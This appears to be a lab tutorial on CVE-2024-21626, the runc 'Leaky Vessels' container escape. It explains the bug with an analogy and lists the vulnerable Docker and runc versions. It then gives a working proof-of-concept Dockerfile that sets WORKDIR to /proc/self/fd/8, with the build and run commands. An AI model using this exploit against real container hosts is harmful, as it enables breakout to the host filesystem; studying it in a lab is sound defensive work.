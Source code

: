 

For docker:

Fixed version: 25.0.2





ELI5 - Analogy for the bug
Consider a box that's enclosed and anything inside the box isn't able to see or interact with anything outside of the box, under normal circumstances.

Now imagine a hole being plugged into the box. This hole provides a way to see and interact with the environment outside of the box.

This, in a gist, is what CVE-2024-21626 is all about.



It's a part of the Leaky Vessels flaw in runc. From the ELI5 example perspective, we can clearly understand why the term was used.



Image Reference: https://thenewstack.io/leaky-vessels-vulnerability-sinks-container-security/



Due to this bug, as one can imagine, container breakout and ultimately the access to the host file system is possible. As one can imagine, this is quite serious because containers allow isolation of the container environment from the host environment.



Lab Setup
docker version:

kali@kali:~$ docker --version
Docker version 20.10.25+dfsg1, build b82b9f3


runc version:

kali@kali:~$ runc --version  
runc version 1.1.10+ds1
commit: 1.1.10+ds1-1
spec: 1.1.0
go: go1.21.3
libseccomp: 2.5.4


Save the following contents as Dockerfile:

FROM debian:bookworm
WORKDIR /proc/self/fd/8


Build the docker image:

docker build -t cve_2024_21626 .


Run the docker container from the above docker image:

docker run --rm -it --name test cve_2024_21626
